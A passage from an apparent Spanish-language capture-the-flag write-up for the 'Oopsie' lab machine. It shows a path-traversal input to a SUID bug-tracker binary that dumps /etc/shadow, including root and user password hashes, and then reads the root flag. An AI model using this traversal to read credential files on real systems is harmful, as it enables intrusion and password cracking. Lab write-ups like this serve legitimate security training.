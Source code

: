 ``` shell
robert@oopsie:~$ bugtracker
bugtracker

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../../etc/shadow
../../etc/shadow
---------------

root:$6$eD0n5saZ$orykpdd7mVL/lF57rIGwUzeSROPC1KRITJ45Nqn6P2BLaZ.tcSOy5fNFcOw9uBRkClgu5R9WlyxpEId5qOOVY.:18285:0:99999:7:::
daemon:*:18113:0:99999:7:::
bin:*:18113:0:99999:7:::
sys:*:18113:0:99999:7:::
sync:*:18113:0:99999:7:::
games:*:18113:0:99999:7:::
man:*:18113:0:99999:7:::
lp:*:18113:0:99999:7:::
mail:*:18113:0:99999:7:::
news:*:18113:0:99999:7:::
uucp:*:18113:0:99999:7:::
proxy:*:18113:0:99999:7:::
www-data:*:18113:0:99999:7:::
backup:*:18113:0:99999:7:::
list:*:18113:0:99999:7:::
irc:*:18113:0:99999:7:::
gnats:*:18113:0:99999:7:::
nobody:*:18113:0:99999:7:::
systemd-network:*:18113:0:99999:7:::
systemd-resolve:*:18113:0:99999:7:::
syslog:*:18113:0:99999:7:::
messagebus:*:18113:0:99999:7:::
_apt:*:18113:0:99999:7:::
lxd:*:18113:0:99999:7:::
uuidd:*:18113:0:99999:7:::
dnsmasq:*:18113:0:99999:7:::
landscape:*:18113:0:99999:7:::
pollinate:*:18113:0:99999:7:::
sshd:*:18284:0:99999:7:::
robert:$6$kriHoPwv$iBt45Fu0g4R0uNWSubfjDRvtUSwxVu.U1JhYKmT4voMWlVc3/u2nu0j0JZL0YWmm62vRgAs4acBl8Ge.S393H/:18285:0:99999:7:::
mysql:!:18284:0:99999:7:::
```
Que pasa si fuerzo el cat de ```../*``` o dicho de otra manera ```/root/*```
``` shell
robert@oopsie:~$ bugtracker 
bugtracker 

------------------
: EV Bug Tracker :
------------------

Provide Bug ID: ../*
../*
---------------

cat: /root/reports/../reports: Is a directory
af13b0bee69f8a877c3faf667f7beacf
```
Submit root flag 
Sin entrar en complicaciones descubrimos la flag. 
